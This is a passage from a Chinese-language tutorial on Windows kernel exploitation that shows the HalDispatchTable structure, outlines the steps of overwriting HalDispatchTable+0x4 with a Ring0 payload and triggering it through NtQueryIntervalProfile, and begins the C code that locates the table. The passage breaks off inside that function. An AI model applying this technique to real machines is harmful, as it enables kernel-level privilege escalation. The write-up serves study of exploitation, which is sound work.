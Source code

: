  

HalDispatchTable 结构：

```
HAL_DISPATCH HalDispatchTable = {
    HAL_DISPATCH_VERSION,
    xHalQuerySystemInformation,//此处
    xHalSetSystemInformation,
    xHalQueryBusSlots,
    xHalDeviceControl,
    xHalExamineMBR,
    xHalIoAssignDriveLetters,
    xHalIoReadPartitionTable,
    xHalIoSetPartitionInformation,
    xHalIoWritePartitionTable,
    xHalHandlerForBus,                  // HalReferenceHandlerByBus
    xHalReferenceHandler,               // HalReferenceBusHandler
    xHalReferenceHandler                // HalDereferenceBusHandler
    };

```

在查 HalDispatchTable 结构，NtQueryIntervalProfile 函数的过程中，发现这个利用有很多，可以更进一步学习。

### 利用过程

> 1.  获取 HalDispatchTable 地址 + 0x4 地址
>     
> 2.  编写 Ring0 payload
>     
> 3.  利用漏洞向 HalDispatchTable 地址 + 0x4 地址处写入 & payload
>     
> 4.  调用`NtQueryIntervalProfile`，执行 payload
>     

#### 1. 获取 HalDispatchTable 地址 + 0x4 地址

思路是先得到内核模块基址，将其与 HalDispatchTable 在内核模块中的偏移相加

> 获取 ntkrnlpa.exe 基址，在内核模式下  
> ntkrnlpa.exe 基址，在用户模式下  
> HalDispatchTable 地址，在用户模式下  
> 计算 HalDispatchTable+0x4 的地址，利用偏移，地址是内核模式下

 

官方给出的函数 HalDispatchTable = GetHalDispatchTable();

```
PVOID GetHalDispatchTable() {
    PCHAR KernelImage;
    SIZE_T ReturnLength;
    HMODULE hNtDll = NULL;
    PVOID HalDispatchTable = NULL;
    HMODULE hKernelInUserMode = NULL;
    PVOID KernelBaseAddressInKernelMode;
    NTSTATUS NtStatus = STATUS_UNSUCCESSFUL;
    PSYSTEM_MODULE_INFORMATION pSystemModuleInformation;
 
    hNtDll = LoadLibrary("ntdll.dll");
 
    if (!hNtDll) {
        DEBUG_ERROR("\t\t\t[-] Failed To Load NtDll.dll: 0x%X\n", GetLastError());
        exit(EXIT_FAILURE);
    }
 
    NtQuerySystemInformation = (NtQuerySystemInformation_t)GetProcAddress(hNtDll, "NtQuerySystemInformation");
```